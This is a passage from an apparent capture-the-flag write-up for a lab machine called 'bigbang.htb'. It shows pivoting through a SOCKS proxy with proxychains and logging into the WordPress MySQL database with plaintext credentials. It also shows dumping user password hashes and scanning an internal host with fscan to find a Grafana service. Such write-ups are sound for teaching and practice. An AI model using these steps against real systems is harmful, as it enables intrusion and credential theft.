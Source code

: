 ```bash
tail /etc/proxychains4.conf                       
socks5  127.0.0.1 1080
```

I access the database with `proxychains -q mysql -h 172.17.0.1 -u 'wp_user' -p`. Password is `wp_password`.

```
MySQL [wordpress]> select * from wp_users \G;
*************************** 1. row ***************************
                 ID: 1
         user_login: root
          user_pass: $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1
      user_nicename: root
         user_email: root@bigbang.htb
           user_url: http://blog.bigbang.htb
    user_registered: 2024-05-31 13:06:58
user_activation_key: 
        user_status: 0
       display_name: root
*************************** 2. row ***************************
                 ID: 3
         user_login: shawking
          user_pass: $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
      user_nicename: shawking
         user_email: shawking@bigbang.htb
           user_url: 
    user_registered: 2024-06-01 10:39:55
user_activation_key: 
        user_status: 0
       display_name: Stephen Hawking
```

Grafana is listening on `172.17.0.2:3000`, a different IP.

```
www-data@bf9a078a3627:/tmp$ ./fscan -h 172.17.0.2/32
./fscan -h 172.17.0.2/32

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
172.17.0.2:3000 open
[*] alive ports len is: 1
start vulscan
[*] WebTitle http://172.17.0.2:3000    code:302 len:29     title:None 跳转url: http://172.17.0.2:3000/login
[*] WebTitle http://172.17.0.2:3000/login code:200 len:38241  title:Grafana
已完成 1/1
```
